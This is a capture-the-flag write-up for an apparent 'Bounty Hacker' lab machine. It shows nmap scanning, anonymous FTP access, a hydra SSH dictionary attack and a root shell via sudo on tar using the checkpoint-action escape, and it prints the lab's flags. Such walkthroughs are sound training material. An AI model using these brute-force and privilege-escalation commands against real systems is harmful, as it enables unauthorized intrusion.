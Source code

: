 ### IP
`10.10.207.236`

# Enumeration

### nmap
`nmap -sC -sV 10.10.207.236 -o BountyHacker.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 23:53 EST
Nmap scan report for 10.10.207.236
Host is up (0.17s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.36.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.46 seconds
```
* Easy stuff first... Let's take a look at the website at port 80
	* Looks like its just a text page. I'll run nikto on it just in case.
* What's more interesting is ftp, because anonymous login is allows
	* Let's try that:

# Exploitation

### ftp login
`ftp 10.10.207.236 21`
* Type in `anonymous` for the username and press enter for the password
* Let's see whats on this thing... `ls`
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 20:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 20:47 task.txt
226 Directory send OK.
```
* We can download those by typing `get locks.txt` and `task.txt`


* `locks.txt` :
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
* Now what could we do with this? 
	* Perhaps its a list for something relating to the ssh client?


* `task.txt` :
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
* Okay... It looks like `lin` wrote the task


### ssh
* Now, we need to figure out how to login to this
* We can reasonably guess that the ssh username is `lin`
	* Maybe locks.txt is a possible list of passwords?

* Let's use hydra to run a dictionary attack:
* `hydra -l "lin" -P locks.txt ssh://10.10.207.236 -t 4`
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 00:07:57
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.207.236:22/
[22][ssh] host: 10.10.207.236   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 00:08:07
```
* Success! Looks like the password is `RedDr4gonSynd1cat3`

* Let's log in now: `ssh lin@10.10.207.236 -p 22`
	* Input the password when asked: `RedDr4gonSynd1cat3`

* When we `ls` we see a `users.txt` file.
* Catting it gives us `THM{CR1M3_SyNd1C4T3}`

* Now we need to get access to root
* I tried `sudo cd /root/` with the same password as lin, but with no success

### privelege escalation

* Let's do some quick recon on the system we're on:
* `cat /etc/os-release`
```
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

* `cat /proc/version`
```
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-052) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020
```

* Let's look online to see if xenial 16.04 has any privesc vulns
* `searchsploit openssh` returns some results
* One interesting one is `linux/local/40962.txt`
	* Let's view the file...

```
...
sing "ssh -L", an attacker who is permitted to log in as a
normal user over SSH can effectively connect to non-abstract unix domain sockets
with root privileges
...
Proof of Concept:
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/40962.zip

```

* Very interesting... Let's download the exploit and try to run it

* Imma be honest.. loads of stuff happened here with no success
* A typical Linux privilege Escalation method is based on checking one of the following: (Quote from [this](https://github.com/Bengman/CTF-writeups/blob/master/Hackthebox/dev0ops.md) writeup)
```
Exploiting services running as root
Exploiting SUID executables
Exploiting SUDO rights/user
Exploiting badly configured cron jobs
Exploiting users with "." in their path
Kernel Exploits
```
* I eventually had some success with exploting sudo rights:
* `sudo -l` with `lin`'s password shows which commands each of the users can execute with sudo
	* turns out lin can execute tar as sudo... we can exploit that
* I looked up `linux tar privesc` and found [this](https://gtfobins.github.io/gtfobins/tar/)
* It says the following command lets us "spawn an interactive system shell"
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
* running this as sudo and typing in `lin`'s password gives us a root shell
* `ls /root/` shows us a file called `root.txt`
* `cat /root/root.txt` gives us the root flag: `THM{80UN7Y_h4cK3r}`

